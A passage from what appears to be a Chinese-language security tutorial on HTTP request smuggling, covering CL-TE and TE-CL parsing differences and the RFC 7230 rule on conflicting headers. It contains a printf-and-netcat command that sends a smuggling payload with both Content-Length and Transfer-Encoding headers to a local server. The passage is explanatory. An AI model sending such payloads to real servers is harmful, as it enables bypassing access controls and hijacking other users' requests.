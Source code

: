 我们知道 Content-Length 与 Transfer-Encoding 均可以作为 POST 数据传输时处理 body 的方式，为了方便阅读以及码字，我们对字段处理优先规则有以下简写规则：

-   CL-TE 代表 Front 以 Content-Length 优先处理，Backend 以 Transfer-Encoding 优先处理
-   TE-CL 代表 Front 以 Transfer-Encoding 优先处理，Backend 以 Content-Length 优先处理

并且 Front 代表的是反向代理等典型的前端服务器，Backend 代表的是处理请求的后端业务服务器，以下均由`\r\n`代替 CRLF，长度为两个字节。

### Chunks Priority On Content-Length

有些同学可能看到这跟我会有同样的疑惑，对于 CL & TE 解析优先级顺序的问题难道 RFC 文档没有做出规范化嘛？有当然是有的，见 [RFC 7230 Message Body Length](https://tools.ietf.org/html/rfc7230#section-3.3.3)

> ​ If a message is received with both a Transfer-Encoding and a Content-Length header field, the Transfer-Encoding overrides the Content-Length. Such a message might indicate an attempt to perform request smuggling (Section 9.5) or response splitting (Section 9.4) and ought to be handled as an error. A sender MUST remove the received Content-Length field prior to forwarding such a message downstream.

虽然这里是指出了 TL 优先于 CL，但是我们仍然可以通过一些方式绕过，又或者说，那个中间件的也没有依照这个 RFC 标准规范实现，这就导致了差异性的存在。

例如我们使用以下代码来发送 HTTP 请求：

```bash
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Content-length:56\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

以上正确的解析应该是解析成三个请求：

```bash
GET / HTTP/1.1
Host:localhost
Content-length:56
Transfer-Encoding: chunked
Dummy:Header

0
```

```bash
GET /tmp HTTP/1.1
Host:localhost
Dummy:Header
```
